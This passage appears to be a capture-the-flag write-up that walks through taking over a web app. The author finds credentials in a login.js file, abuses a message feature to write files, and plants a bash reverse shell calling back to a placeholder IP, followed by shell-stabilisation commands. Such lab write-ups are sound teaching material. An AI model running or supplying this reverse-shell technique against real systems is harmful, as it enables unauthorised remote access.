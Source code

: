
We got a login page:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519212128.png)


If we inspect the source code, we can find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519212145.png)

There's a `login.js` file, inside of it, we can find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519212206.png)

We got credentials, once we login, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519212235.png)

We can write messages for `yash`, if we try some commands they don't work, such as id or whoami, but, we can use `echo` to create a file:




![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519212359.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519212410.png)

As seen, it does create the file in our home, we can now create another file to send us a reverse shell as yash:


```
echo '' > /home/files/shell.sh
```

We now need to give the files permissions:

```
chmod 777 /home/files/reverse.sh
```

We can now change the contents to a reverse shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/IP/9001 0>&1
```


We now need to execute the file and get our shell if we have our listener ready:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519213847.png)

We can now stabilize it again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
